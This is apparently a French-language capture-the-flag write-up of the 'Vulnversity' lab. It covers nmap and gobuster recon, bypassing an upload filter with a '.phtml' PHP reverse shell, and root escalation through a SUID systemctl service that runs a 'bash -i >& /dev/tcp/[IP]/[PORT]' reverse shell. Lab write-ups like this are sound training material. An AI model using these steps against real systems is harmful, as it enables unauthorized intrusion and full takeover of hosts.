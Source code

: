 ```yaml
---
title: "001-Vulnversity"
date: 2024-10-01
draft: false
tags:
  - find
  - nmap
  - gobuster
  - netcat
  - SUID
  - systemctl
  - GTFOBins
  - Linux
aliases:
  - Vulnversity
---
```

Learn about active recon, web app attacks and privilege escalation.
## Reconnaissance

On utilise [[Nmap]] afin découvrir les ports et services accessibles sur l'hôte cible.

**nmap -sS -sV -sC -A -p- 10.10.108.95**

	PORT     STATE SERVICE     VERSION
	21/tcp   open  ftp         vsftpd 3.0.3
	22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
	139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
	3128/tcp open  http-proxy  Squid http proxy 3.5.12
		http-server-header: squid/3.5.12
		http-title: ERROR: The requested URL could not be retrieved
	3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
		http-server-header: Apache/2.4.18 (Ubuntu)
		http-title: Vuln University

## Locating directories using Gobuster

On utilise [[Gobuster]] afin de découvrir les fichiers et dossiers cachés sur le serveur web.

**gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.108.95:3333/**

	[+] Url:                     http://10.10.108.95:3333/
	[+] Method:                  GET
	[+] Threads:                 10
	[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
	[+] Negative Status codes:   404
	[+] User Agent:              gobuster/3.6

	/images               (Status: 301) [Size: 320] [--> http://10.10.108.95:3333/images/]
	/css                  (Status: 301) [Size: 317] [--> http://10.10.108.95:3333/css/]
	/js                   (Status: 301) [Size: 316] [--> http://10.10.108.95:3333/js/]
	/fonts                (Status: 301) [Size: 319] [--> http://10.10.108.95:3333/fonts/]
	/internal             (Status: 301) [Size: 322] [--> http://10.10.108.95:3333/internal/]

Ceci nous permet de trouver une page permettant d'upload un fichier.

![[Pasted image 20240930102604.png]]

## Compromission du serveur web

On peut maintenant utiliser ce formulaire afin d'uploader des fichiers puis exécuter un payload permettant de compromettre le serveur, donc d'y gagner un accès.
Cependant, on peut avant tout tenter de trouver les extensions non bloquées par le formulaire en utilisant du [[Fuzzing]] en utilisant [[Burpsuite]].
Pour cela on créé  une liste d'extensions potentielles.

**cat <<'[[EOF]]' > liste_extensions.txt**    

	heredoc> .php
	heredoc> .php3
	heredoc> .php4
	heredoc> .php5
	heredoc> .phtml
	heredoc> EOF

On utilise ensuite l'attaque [[Intruder#Sniper|Sniper]] de l'[[Intruder]] de [[Burpsuite]] afin d'intercepter la requête générée lors de l'envoi d'un fichier aléatoire "payload.html" puis de modifier avec la requête en bruteforçant à l'aide de notre liste précédemment créée.

La seule réponse de taille différente est obtenue pour l'extension ".phtml", en observant le résultat on remarque que contrairement aux autres ou il est retourné "extension not allowed", celle-ci est autorisée.

![[Pasted image 20240930105739.png]]

On peut donc créer un  [[Reverse Shell#PHP|Reverse Shell PHP]] en extension ".phtml" afin de l'upload sur le serveur distant et le forcer à initier une connexion avec nous.
Il faut donc se mettre en écoute de connexions entrantes, uploader et exécuter notre shell.

Payload -> https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

On remplace l'IP de la fonction exec avec la notre ainsi que le port sur lequel nous sommes en écoute des connexions entrantes avec [[Netcat]].

**nc -lvnp 4443 **

	Ncat: Version 7.93 ( https://nmap.org/ncat )
	Ncat: Listening on :::4443
	Ncat: Listening on 0.0.0.0:4443

![[Pasted image 20240930113050.png]]

En cliquant maintenant sur le payload pour l'afficher, ceci l'exécute et nous offre un [[Reverse Shell]] sur la cible.

L'accès gagné nous permet de voir avec la commande "whoami" que nous somme connectés en tant qu'utilisateur "www-data" et l'affichage avec "cat" du fichier "/etc/passwd" permet de voir que l'utilisateur "bill" gère le serveur.
Sur son bureau se trouve le userflag.txt.

## Privilege Escalation

La recherche des binaires ayant une permission [[SUID]] d'activée sont les suivants :

**find / -user root -perm -4000 -print 2>/dev/null**

	./bin/su
	./bin/ntfs-3g
	./bin/mount
	./bin/ping6
	./bin/umount
	./bin/systemctl
	./bin/ping
	./bin/fusermount

On retrouve notamment le binaire [[Systemctl]], permettant, d'après le [[GTFOBins]] de faire une escalade de privilèges.
Voir : https://gtfobins.github.io/gtfobins/systemctl/

On peut créer notre propre service nommé afin d'obtenir un reverse shell avec privilèges.

**nano root.service**

```
[Unit]
Description=roooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/[IP]/[PORT] 0>&1'

[Install]
WantedBy=multi-user.target
```

On va ensuite l'upload dans un dossier disponible à l'écriture pour l'utilisation courant, comme le dossier [[Temp]] notamment.
Il est aussi possible de retrouver des dossiers de ce type avec la commande suivante :

**find / -type d -maxdepth 2 -writable**

Par la suite, on transfère le payload à la cible avec [[Netcat]].

1) Lancement de l'écoute de la cible sur son port 4445 et transfert des données reçues dans le fichier root.service : **nc -lv 4445 > root.service 
2) Envoi du payload "root.service" à la cible via son port d'écoute : nc -n "IP" "PORT" root.service

Il faut noter que la même manipulation était possible avec un serveur python et la commande wget depuis la cible.
Enfin, on lance lance l'écoute sur notre hôte sur le port décrit dans le "root.service" afin d'obtenir notre reverse shell lors du lancement du service créé.

**systemctl enable /tmp/root.service**

	Created symlink from /etc/systemd/system/multi-user.target.wants/root.service to /tmp/root.service.
	Created symlink from /etc/systemd/system/root.service to /tmp/root.service.

Ceci nous offre donc un reverse shell sur la cible et une connexion en tant qu'utilisateur "root" pour lequel le dernier flag est présent sur son bureau.
